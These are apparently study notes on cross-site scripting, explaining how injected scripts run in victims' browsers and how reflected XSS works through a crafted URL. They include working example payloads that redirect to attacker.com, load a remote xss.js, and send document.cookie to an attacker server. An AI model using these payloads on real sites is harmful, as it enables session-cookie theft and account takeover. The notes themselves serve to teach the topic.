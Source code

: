 - An XSS vulnerability occurs when attackers can execute custom scripts on a victim’s browser. If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by other users. The victim’s browser will then execute the malicious script, which might steal cookies, leak personal information, change site contents, or redirect the user to a malicious site. These malicious scripts are often JavaScript code but can also be HTML, Flash, VBScript, or anything written in a language that the browser can execute.
	<script>alert("Hello!");</script>
	These scripts are the cause of many XSS vulnerabilities. (Besides embedding a script inside the HTML page as an inline script, sites can also load JavaScript code as an external file, like this: <script src="URL_OF_EXTERNAL_SCRIPT"></script>.)
	<script>location="http://attacker.com";</script>

- Validating user input means that the application checks that the user input meets a certain standard—in this case, does not contain malicious JavaScript code. Sanitizing user input, on the other hand, means that the application modifies special characters in the input that can be used to interfere with HTML logic before further processing

- The attacker can also use a different syntax to embed malicious code. 
	- The src attribute of the HTML <script>This piece of malicious code will execute the contents of http://attacker.com/xss.js/ on the victim’s browser during an XSS attack: <script src=http://attacker.com/xss.js></script>


- This example isn’t really exploitable, because attackers have no way of injecting the malicious script on other users’ pages. The most they could do is redirect themselves to the malicious page. But let’s say that the site also allows users to subscribe to the newsletter by visiting the URL https://subscribe.example.com?email=SUBSCRIBER_EMAIL. After users visit the URL, they will be automatically subscribed, and the same confirmation will be shown on the web page. In this case, attackers can inject the script by tricking users into visiting a malicious URL:
	https://subscribe.example.com?email=<script>location="http://attacker.com";</script>
	 Since the malicious script gets incorporated into the page, the victim’s browser will think the script is part of that site. Then the injected script can access any resources that the browser stores for that site, including cookies and session tokens. Attackers can, therefore, use these scripts to steal information and bypass access control. For example, attackers might steal user cookies by making the victim’s browser send a request to the attacker’s IP with the victim’s cookie as a URL parameter:



- attackers can use the XSS to steal other users’ cookies by inspecting incoming requests on their server logs. Note that if the session cookie has the HttpOnly flag set, JavaScript will not be able to read the cookie, and therefore the attacker will not be able to exfiltrate
	<script>image = new Image();
	image.src='http://attacker_server_ip/?c='+document.cookie;</script>
	 XSS can be used to execute actions on the victim’s behalf, modify the web page the victim is viewing, and read the victim’s sensitive information, such as CSRF tokens, credit card numbers, and any other details rendered on their page.

- There are three kinds of XSS: stored XSS, reflected XSS, and DOM-based XSS
-  